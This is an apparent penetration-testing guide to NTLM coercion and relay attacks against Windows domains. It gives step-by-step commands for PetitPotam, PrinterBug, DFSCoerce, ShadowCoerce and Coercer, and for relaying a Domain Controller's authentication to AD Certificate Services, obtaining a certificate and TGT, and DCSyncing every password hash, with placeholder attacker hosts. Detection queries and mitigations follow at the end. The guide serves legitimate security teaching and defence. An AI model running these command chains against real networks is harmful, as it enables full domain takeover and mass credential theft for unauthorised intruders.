

# Protocol-Based NTLM Coercion & Relay Attacks

## Overview

Unlike file-based coercion (which requires a user to interact with a file), **protocol-based coercion** abuses Windows RPC and DCOM interfaces to **force a machine account** to authenticate to an attacker-controlled host — with **no user interaction whatsoever**. These techniques are especially powerful because:

1. They coerce **machine accounts** (e.g., `DC01$`), which are highly privileged
2. They're triggered remotely over the network
3. When combined with NTLM relay, they lead directly to **Domain Admin**

The killer combination is: **Coerce a Domain Controller → Relay its authentication to AD Certificate Services → Obtain a certificate as the DC → Compromise the domain.**

## The Coercion Techniques

| Technique | RPC Interface | CVE | Auth Required | Status |
|---|---|---|---|---|
| PetitPotam | MS-EFSRPC | CVE-2021-36942 | Unauth (originally) | Partially patched |
| PrinterBug | MS-RPRN (Spooler) | — | Authenticated | Works if Spooler enabled |
| DFSCoerce | MS-DFSNM | — | Authenticated | Works on most DCs |
| ShadowCoerce | MS-FSRVP | — | Authenticated | Patched but often re-enabled |
| RemoteMonologue | DCOM | — | Authenticated | Novel (2025) |

---

## 1. PetitPotam (CVE-2021-36942)

### The Vulnerable Interface

PetitPotam abuses the **MS-EFSRPC** (Encrypting File System Remote Protocol). The `EfsRpcOpenFileRaw` function (and several others) accepts a file path parameter. If you supply a UNC path pointing to your server, the target machine authenticates to you to "open" that file.

### Why It's Dangerous

Originally, PetitPotam could be triggered **unauthenticated** against Domain Controllers via the `\pipe\lsarpc` named pipe. This meant an attacker with only network access could coerce a DC's machine account authentication.

### Execution

```bash
# Coerce DC01 to authenticate to the attacker (ATTACKER_IP)
python3 PetitPotam.py -u '' -p '' ATTACKER_IP DC01_IP

# Authenticated version (if unauth is patched)
python3 PetitPotam.py -u user -p password -d domain.local ATTACKER_IP DC01_IP
```

### Vulnerable Functions

Microsoft patched some functions but others remain abusable:

- `EfsRpcOpenFileRaw` (patched)
- `EfsRpcEncryptFileSrv`
- `EfsRpcDecryptFileSrv`
- `EfsRpcQueryUsersOnFile`
- `EfsRpcAddUsersToFile`

### Status

CVE-2021-36942 addressed the unauthenticated `lsarpc` path, but authenticated coercion via other EFSRPC functions still works on many systems. Additional pipes (`\pipe\efsrpc`) may still allow it.

---

## 2. PrinterBug / SpoolSample (MS-RPRN)

### The Vulnerable Interface

The Windows Print Spooler service exposes **MS-RPRN**. The `RpcRemoteFindFirstPrinterChangeNotificationEx` function allows a client to register for print notifications — and specify a UNC path where notifications should be sent. The Spooler authenticates to that path.

### Execution

```bash
# Impacket
python3 dementor.py -u user -p password -d domain.local ATTACKER_IP DC01_IP

# Or SpoolSample (Windows/.NET)
SpoolSample.exe DC01 ATTACKER_HOST
```

### Requirements

- The Print Spooler service must be **running** on the target (it's on by default on many DCs)
- Authenticated (any domain user)

### Status

Still works wherever the Spooler service is enabled. Microsoft's mitigation is simply to **disable the Print Spooler on Domain Controllers** — which many organizations have now done in response to PrintNightmare.

---

## 3. DFSCoerce (MS-DFSNM)

### The Vulnerable Interface

DFSCoerce abuses **MS-DFSNM** (Distributed File System Namespace Management Protocol). The `NetrDfsAddStdRoot` and `NetrDfsRemoveStdRoot` functions can be abused to coerce authentication.

### Execution

```bash
python3 dfscoerce.py -u user -p password -d domain.local ATTACKER_IP DC01_IP
```

### Why It Matters

The DFS service is **almost always running** on Domain Controllers and is much harder to disable than the Print Spooler (it's core to AD file replication). This makes DFSCoerce one of the most reliable coercion methods.

### Status

Works on most Domain Controllers. Very difficult to mitigate without breaking DFS functionality.

---

## 4. ShadowCoerce (MS-FSRVP)

### The Vulnerable Interface

ShadowCoerce abuses **MS-FSRVP** (File Server Remote VSS Protocol). The `IsPathSupported` and `IsPathShadowCopied` functions accept UNC paths and trigger authentication.

### Execution

```bash
python3 shadowcoerce.py -u user -p password -d domain.local ATTACKER_IP DC01_IP
```

### Status

Microsoft patched this, but the FSRVP service is often re-enabled by backup software or specific configurations. Worth testing on any target.

---

## 5. RemoteMonologue (DCOM — 2025)

### The Technique

Disclosed by IBM X-Force in 2025, **RemoteMonologue** weaponizes DCOM for NTLM coercion. Instead of RPC named pipes, it abuses DCOM object activation to coerce authentication. It targets DCOM objects like the `ServerDataCollectorSet` and `FileSystemImage` interfaces.

### Why It's Significant

As Microsoft hardens RPC-based coercion (PetitPotam, etc.), DCOM offers a fresh, less-monitored attack surface. RemoteMonologue also leverages the technique to coerce authentication in the context of interactive sessions, potentially capturing more privileged hashes.

### Status

Novel technique (2025). Detection and mitigation are still maturing across the industry.

---

## 6. Coercer — Automated Multi-Protocol Coercion

Rather than testing each technique manually, **Coercer** automates all known coercion methods:

```bash
# Scan a target for all vulnerable coercion methods
coercer scan -u user -p password -d domain.local -t DC01_IP

# Coerce using ALL available methods
coercer coerce -u user -p password -d domain.local -t DC01_IP -l ATTACKER_IP
```

Coercer tests MS-EFSRPC, MS-RPRN, MS-DFSNM, MS-FSRVP, and more in a single run.

**GitHub:** [github.com/p0dalirius/Coercer](https://github.com/p0dalirius/Coercer)

---

## The Killer Chain: PetitPotam → ADCS → Domain Admin (ESC8)

This is the most impactful use of coercion. If the target domain runs **AD Certificate Services (ADCS)** with the **Web Enrollment** endpoint enabled (very common), you can achieve full domain compromise.

### Why It Works

ADCS Web Enrollment (`http://ca/certsrv/`) accepts NTLM authentication and does **not** enforce Extended Protection for Authentication (EPA) by default. This means you can relay coerced NTLM authentication to it. If you relay a **Domain Controller's machine account** and request a certificate, you get a certificate that authenticates AS the DC — which lets you DCSync the entire domain.

### The Attack Flow



### Step-by-Step Commands

**Step 1 — Set up the relay targeting ADCS:**

```bash
ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

**Step 2 — Coerce the Domain Controller:**

```bash
python3 PetitPotam.py -u '' -p '' ATTACKER_IP DC01_IP
# Or if patched, use DFSCoerce:
python3 dfscoerce.py -u lowpriv -p password -d corp.local ATTACKER_IP DC01_IP
```

**Step 3 — ntlmrelayx captures the cert:**

```
[*] Authenticating against http://ca01.corp.local as CORP/DC01$ SUCCEED
[*] GOT CERTIFICATE! ID 42
[*] Base64 certificate of user DC01$:
MIIStQIBAzCCEn8GCSqGSIb3DQ...
```

**Step 4 — Request a TGT using the certificate:**

```bash
# Using the captured PFX certificate
python3 gettgtpkinit.py -cert-pfx dc01.pfx corp.local/DC01\$ dc01.ccache

# Or with Rubeus on Windows
Rubeus.exe asktgt /user:DC01$ /certificate:dc01.pfx /ptt
```

**Step 5 — DCSync the domain:**

```bash
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass corp.local/DC01\$@dc01.corp.local
```

Result: Every password hash in the domain, including the `krbtgt` hash (which enables Golden Tickets for permanent persistence).

---

## Alternative Relay Targets

Coerced authentication can be relayed to targets other than ADCS:

### Relay to LDAP/LDAPS (RBCD Attack)

```bash
# Relay to LDAP and configure Resource-Based Constrained Delegation
ntlmrelayx.py -t ldaps://dc01.corp.local --delegate-access --no-dump
```

This grants an attacker-controlled computer account delegation rights over the coerced machine, allowing impersonation of any user on it.

### Relay to SMB (if signing disabled)

```bash
# Relay to another machine's SMB (requires SMB signing NOT enforced)
ntlmrelayx.py -t smb://192.168.1.50 -smb2support -c "whoami"
```

### WebDAV Trick — Forcing HTTP Authentication

A limitation of relaying is that SMB→LDAP relay is often blocked by signing. The **WebDAV trick** forces the coercion to use **HTTP** instead of SMB, which enables more relay targets:

```bash
# Coerce with a WebDAV path (@ syntax forces HTTP/WebDAV)
python3 PetitPotam.py ATTACKER_IP@80/share DC01_IP
```

This requires the WebClient service to be running on the target (can be started remotely via techniques like the `searchConnector-ms` trick).

---

## Detection & Monitoring

### Coercion Detection

| Indicator | Detection Method |
|---|---|
| Inbound RPC to EFSRPC/RPRN/DFSNM/FSRVP | Network monitoring on DC |
| Machine account auth to non-standard hosts | Event ID 4624 (logon type 3) with computer accounts |
| Rapid cert enrollment for machine accounts | ADCS audit logs (Event ID 4886, 4887) |
| Unusual DCSync (replication) requests | Event ID 4662 with replication GUIDs |

### ADCS Relay Detection

```kql
SecurityEvent
| where EventID == 4887  // Certificate Services approved a request
| where RequesterName endswith "$"  // Machine account requesting cert
| where CertificateTemplate in ("DomainController", "Machine")
| project TimeGenerated, RequesterName, CertificateTemplate, Requester
```

---

## Mitigations

### 1. Enable Extended Protection for Authentication (EPA) on ADCS

This is the single most important fix for the ESC8 chain:

```
IIS Manager → certsrv → Authentication → Windows Authentication → 
Advanced Settings → Extended Protection: Required
```

### 2. Enforce HTTPS + Channel Binding on ADCS Web Enrollment

Disable HTTP; require HTTPS with channel binding to prevent relay.

### 3. Disable NTLM Where Possible

Use the `Network security: Restrict NTLM` group policies to block NTLM authentication to ADCS and other sensitive services.

### 4. Enable SMB Signing and LDAP Signing

- Enforce SMB signing (prevents SMB relay)
- Enforce LDAP signing + channel binding (prevents LDAP relay)

### 5. Disable Unnecessary Services

- Disable Print Spooler on Domain Controllers (kills PrinterBug)
- Disable the WebClient service where not needed (kills WebDAV trick)

### 6. Restrict RPC Coercion

Deploy RPC filters to block the coercion interfaces:

```
netsh rpc filter add rule layer=um actiontype=block
netsh rpc filter add condition field=if_uuid matchtype=equal data=c681d488-d850-11d0-8c52-00c04fd90f7e  # EFSRPC
netsh rpc filter add filter
```

### 7. Harden ADCS Templates

Remove the ability for machine accounts to enroll in authentication-capable certificate templates unless strictly required.

---

## Tools Reference

| Tool | Purpose |
|---|---|
| **PetitPotam.py** | MS-EFSRPC coercion |
| **dementor.py / SpoolSample** | MS-RPRN (PrinterBug) coercion |
| **dfscoerce.py** | MS-DFSNM coercion |
| **shadowcoerce.py** | MS-FSRVP coercion |
| **Coercer** | Automated multi-protocol coercion |
| **ntlmrelayx.py** | NTLM relay to SMB/LDAP/HTTP/ADCS |
| **Certipy** | ADCS attack automation (incl. relay) |
| **gettgtpkinit.py** | Request TGT from certificate |
| **Rubeus** | Windows Kerberos abuse (cert → TGT) |

---

## References

- [IBM X-Force — RemoteMonologue: Weaponizing DCOM](https://www.ibm.com/think/x-force/remotemonologue-weaponizing-dcom-ntlm-authentication-coercions)
- [Coercer — p0dalirius](https://github.com/p0dalirius/Coercer)
- [SpecterOps — Certified Pre-Owned (ADCS attacks)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [HackTricks — Force NTLM Privileged Authentication](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printers-spooler-service-abuse)
